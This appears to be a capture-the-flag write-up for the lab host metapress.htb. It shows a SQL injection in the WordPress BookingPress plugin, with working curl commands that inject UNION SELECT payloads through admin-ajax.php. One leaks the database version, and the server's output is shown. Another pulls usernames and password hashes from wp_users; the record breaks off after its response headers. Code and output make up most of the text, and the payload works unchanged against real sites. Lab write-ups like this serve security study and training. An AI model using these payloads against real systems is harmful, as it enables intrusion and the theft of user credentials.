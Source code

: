 A plugin for events is used, its name is "bookingpress" probably.
An exploit exists here:

https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

## Running the first Exploit

The exploit requires a nonce, which can be found later in the page searching for `bookingpress_front_get_category_services` in the HTML.

A first attempt with:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

reveals that the website is vulnerable!

```shell

┌──(kali㉿kali)-[~]
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=b81f4b63a7&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' 

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Wed, 16 Nov 2022 15:55:21 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]                                                                                                                                                                                                                                   
```

It's clear that we can extract data from the database using this SQL injection.
Now we can extract user and password hash, then.

```shell

┌──(kali㉿kali)-[~]
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=b81f4b63a7&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_pass,@@version_compile_os,1,2,3,4,5,6 from wp_users-- -'

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Wed, 16 Nov 2022 15:58:54 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
```